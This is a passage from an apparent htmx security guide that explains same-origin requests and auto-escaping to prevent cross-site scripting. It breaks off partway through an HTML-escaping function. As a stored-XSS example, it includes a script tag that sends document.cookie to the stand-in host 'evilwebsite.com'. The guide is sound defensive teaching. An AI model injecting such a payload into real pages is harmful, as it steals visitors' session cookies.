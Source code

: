 ```html
<button hx-get="/events">Search events</button>
```

But this is not:

```html
<button hx-get="https://google.com/search?q=events">Search events</button>
```

The reason for this is simple: htmx inserts the response from that route directly into the user’s page. If the response has a malicious `<script>` inside it, that script can steal the user’s data. When you don’t control the route, you cannot guarantee that whoever does control the route won’t add a malicious script.

Fortunately, this is a very easy rule to follow. Hypermedia APIs (i.e. HTML) are specific to the layout of your application, so there is almost never any reason you’d want to insert someone else’s HTML into your page. All you have to do is make sure you only call your own routes (htmx 2 will actually disable calling other domains by default).

Though it’s not quite as popular these days, a common SPA pattern was to separate the frontend and backend into different repositories, and sometimes even to serve them from different URLs. This would require using absolute URLs in the frontend, and often, disabling CORS. With htmx (and, to be fair, modern React with NextJS) this is an anti-pattern.

Instead, you simply serve your HTML frontend from the same server (or at least the same domain) as your backend, and everything else falls into place: you can use relative URLs, you’ll never have trouble with CORS, and you’ll never call anyone else’s backend.

htmx executes HTML; HTML is code; never execute untrusted code.

### Always use an auto-escaping template engine
When you send HTML to the user, all dynamic content must be escaped. Use a template engine to construct your responses, and make sure that auto-escaping is on.

Fortunately, all template engines support escaping HTML, and most of them enable it by default.

The kind of vulnerability this prevents is often called a Cross-Site Scripting (XSS) attack, a term that is broadly used to mean the injection of any unexpected content into your webpage. Typically, an attacker uses your APIs to store malicious code in your database, which you then serve to your other users who request that info.

For example, let’s say you’re building a dating site, and it lets users share a little bio about themselves. You’d render that bio like this, with {{ user.bio }} being the bio stored in the database:
```html
<p>
{{ user.bio }}
</p>
```

If a malicious user wrote a bio with a script element in it—like one that sends the client’s cookie to another website—then this HTML will get sent to every user who views that bio:
```html
<p>
<script>
  fetch('evilwebsite.com', { method: 'POST', body: document.cookie })
</script>
</p>
Fortunately this one is so easy to fix that you can write the code yourself. Whenever you insert untrusted (i.e. user-provided) data, you just have to replace eight characters with their non-code equivalents. This is an example using JavaScript:

/**
 * Replace any characters that could be used to inject a malicious script in an HTML context.
 */
export function escapeHtmlText (value) {
  const stringValue = value.toString()
  const entityMap = {
    '&': '&amp;',
    '<': '&lt;',
```